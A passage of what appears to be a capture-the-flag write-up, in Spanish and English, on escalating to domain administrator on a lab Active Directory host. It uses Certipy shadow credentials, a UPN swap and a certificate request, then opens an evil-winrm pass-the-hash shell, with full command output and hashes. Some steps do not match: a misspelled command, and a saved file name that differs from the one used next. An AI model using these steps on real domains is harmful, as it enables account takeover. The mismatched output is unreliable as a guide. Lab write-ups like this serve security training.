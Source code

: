 ### Escalada
Discovered that management_svc had GenericAll rights over ca_operator.

Usamos certipy-ad para modificar ca_operator KeyCredential:
https://github.com/ly4k/Certipy.git

```bash
certipy shadow auto -u management_svc@certified.htb -hashes $NThash -account ca_operator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c65a33ce-ffe3-98a5-446a-e044e651386b'
[*] Adding Key Credential with device ID 'c65a33ce-ffe3-98a5-446a-e044e651386b' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'c65a33ce-ffe3-98a5-446a-e044e651386b' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2

```

##### Updating UPN of ca_operator

Updated the UPN (UserPrincipalName) of ca_operator to administrator:
```bash
ertipy account update -u management_svc@certified.htb -hashes $NThash -user ca_operator  -upn administrator 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

##### 4. Requesting Administrator Certificate
```bash
certipy req -username ca_operator@certified.htb -hashes $NThash -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/home/cher0/.local/lib/python3.12/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.20) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'ca_operator@certified.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'ca_operator.pfx'

```
##### Restoring Original UPN

Restored ca_operator’s UPN to its original value:

```
certipy account update -u management_svc@certified.htb -hashes $NThash -user ca_operator  -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

#### Obtener el certificado de administrator
Con el certificado previamente obtenido .pfx conseguimos el hash de administrator

```
certipy auth -pfx administrator.pfx -domain certified.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

```

```bash
evil-winrm -i $IP -H 0d5b49608bbce1751f708748f67e2d34 -u administrator 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                     
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

---



